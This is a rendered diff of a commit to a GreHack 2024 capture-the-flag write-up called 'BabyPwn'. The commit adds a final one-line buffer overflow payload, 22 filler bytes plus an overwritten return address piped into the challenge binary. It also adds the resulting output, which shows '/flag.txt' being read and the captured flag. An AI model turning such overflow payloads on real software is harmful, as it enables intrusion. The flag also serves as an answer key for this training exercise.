

Before and after one commit to mauricelambert/CTF-WriteUps, a Markdown page: 2024_11_16_GreHack/BabyPwn.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/2024_11_16_GreHack/BabyPwn.md
+++ b/2024_11_16_GreHack/BabyPwn.md
@@ -229,3 +229,19 @@ gdb.attach(c)
 c.sendline(b"a" * 22 + (0x08049205).to_bytes(4, 'little'))
 c.interactive()
 ```
+
+## Final payload
+
+```bash
+(python3 -c "from sys import stdout;stdout.buffer.write(b'a' * 22 + (0x08049205).to_bytes(4, 'little') + b'\n')"; cat) | ./baby
+```
+
+```
+... [ASCII ARTS TRUNCATED]
+Fill this : New is not always ...?
+AAAAAAAAAAAAAAAAAAAAAA ? The good one is the following one :
+New is not always better ! But sometimes, it is ;)
+Debug mode enabled
+cat /flag.txt
+GH{m4yb3_th1S_Is_y0uR_f1rsT_biN4ry_pWn3d}
+```
````
